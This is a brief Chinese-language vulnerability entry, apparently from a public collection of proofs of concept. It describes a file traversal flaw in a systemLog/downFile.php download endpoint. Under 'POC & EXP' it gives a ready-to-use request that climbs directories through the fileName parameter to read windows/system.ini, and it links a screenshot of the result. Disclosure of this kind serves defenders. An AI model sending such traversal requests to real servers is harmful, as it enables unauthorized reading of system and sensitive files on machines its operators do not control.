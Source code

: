 ### 描述
通过文件遍历漏洞获取敏感信息

### POC & EXP
```
http://xxx.xxx.xxx.xxx/systemLog/downFile.php?fileName=../../../../../../../../../../../../../../../windows/system.ini
```
![hiv-6.png](https://i.loli.net/2021/04/19/oU2pn6mOaNY5DIV.png)
